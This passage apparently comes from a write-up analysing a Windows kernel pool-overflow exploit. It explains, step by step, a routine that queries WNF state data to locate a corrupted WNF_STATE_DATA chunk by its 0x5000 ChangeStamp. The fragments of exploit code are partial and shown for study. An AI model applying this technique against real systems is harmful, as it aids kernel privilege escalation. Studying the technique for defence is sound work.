 Next, the `NtQueryWnfStateData` function is called in order to obtain the `ChangeStamp` value of the ith `WNF_STATE_NAME` chunk. 

```cpp
for (int i = 0; i < count; i++)
{
    //...
    if ((ULONG)stamp == 0x5000) {
        overflow = i; // found our overflow chunk index
        printf("[+] Successfully overflowed into a WNF_STATE_DATA chunk at index 0x%x\n", overflow);
        break;
    }
    //...
}
```

The `ChangeStamp` value is then checked against the magic number `0x5000` to determine if the `WNF_STATE_NAME` is corrupted. If the `ChangeStamp` is equal to `0x5000`, the `overflow` variable is set to the index `i` and the `for` loop is broken.

```cpp
for (int i = 0; i < count; i++)
{
    //...
    if (!NT_SUCCESS(status)) {
        log_warn("find_chunk::_NtQueryWnfStateData()1");
        goto out;
    }
}
```

However, if the `NTSTATUS` variable `status` is not equal to `STATUS_SUCCESS`, the program breaks and goes to the `out` designated portion of the program. In other words, if the `NtQueryWnfStateData` function call fails for whatever reason, the program breaks and goes to `out`. 

```cpp
if (overflow == -1) {
    // means we corrupted a wnf name instance instead of name header, should overflow again.
    // we will fix these corrupted wnf name instances in the end.
    log_warn("Did not overflow a WNF_STATE_DATA chunk, overflow again!");
    status = STATUS_UNSUCCESSFUL;
    goto out;
}
else
    status = STATUS_SUCCESS;
```

After the `for` loop completes, if the `overflow` variable is not set to the ith index, the corrupted `WNF_STATE_DATA` chunk was not found and the `NTSTATUS` variable `status` is set to `STATUS_UNSUCCESSFUL` and the program goes to `out`. However, if the `overflow` variable was set to the ith index of the `WNF_STATE_DATA` chunks, the program sets the `status` variable to `STATUS_SUCCESS`. 

```cpp
*idx = overflow;

out:
    return status;
```
